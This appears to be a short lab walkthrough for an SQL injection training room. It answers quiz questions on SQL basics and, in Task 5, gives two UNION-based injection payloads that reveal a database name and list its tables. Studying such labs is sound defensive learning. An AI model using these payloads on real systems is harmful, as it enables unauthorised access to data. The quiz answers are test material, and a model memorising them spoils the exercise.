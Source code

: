 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

## Task 1: Brief
#### - What does SQL stand for?
	- Structured Query Language
	
## Task 2: What is a Database?
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
## Task 3: What is SQL?
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

## Task 4: What is SQL Injection?
#### - What character signifies the end of an SQL query?
	- ;

## Task 5: In-Band SQLi?
Deploy the machine, then use the given commands in the task.
```
0 UNION SELECT 1,2,database()
```
This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
This will show the different table name in the sqli_one database

